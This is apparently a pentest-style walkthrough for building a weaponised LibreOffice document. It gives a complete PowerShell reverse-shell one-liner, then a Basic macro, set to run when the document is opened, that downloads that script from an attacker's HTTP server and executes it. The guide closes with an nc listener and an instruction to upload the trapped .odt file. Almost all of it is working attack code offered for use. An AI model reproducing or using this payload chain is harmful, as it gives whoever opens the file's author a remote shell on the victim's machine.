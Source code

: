 - - -
## Step by Step : 

```sh
sudo apt install -y libreoffice
```

##### On Terminal 1 : 

```sh
touch offsec.ps1
```

```
nano offsec.ps1 
```

Now, Enter your <mark style="background: #FF5582A6;">IP</mark> and <mark style="background: #FFB86CA6;">port</mark> For listening. And Note **That their Should be no new Line in the below code!!!**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```sh
chmod 755 offsec.ps1
```

#### On Terminal 2 :

```sh
libreoffice
```

Now Click On :
```
writer document →
	tools →
		macros →
			organise macros →
				basic →
					untitled →
						new → 
							<givename> →
								OK .
```

New window appers. on the right side something written like code.
write your code between ‘**Sub Main**’ and ‘**End Sub**’.

```odt
Sub main  
	shell("cmd /c powershell iwr http://<out-IP>:80/offsec.ps1  -o C:/Windows/Tasks/offsec.ps1")  
	shell("cmd /c powershell -c C:/Windows/Tasks/offsec.ps1")  
End Sub
```

Now Click On : 
```
File →
	save →
		offsec1 →
			Save.
```

Close the window.

Now move **back to Libre-office**. Now Click On : 
```
tools →
	customise →
		Open Document →
			Macro →
				offsec2.odt →
					<click the sub option> →
						offsec2 ( main on right side.) →
							OK →
								File →
									Save.
```

Close the Libe-Office.

### On Terminal 3 :

```python
python3 -m http.server 80
```

### On Terminal 4 :

```sh
nc -nvlp <your_port>
```

<mark style="background: #FFF3A3A6;">Now Go And Upload ‘offsec2.odt’</mark>

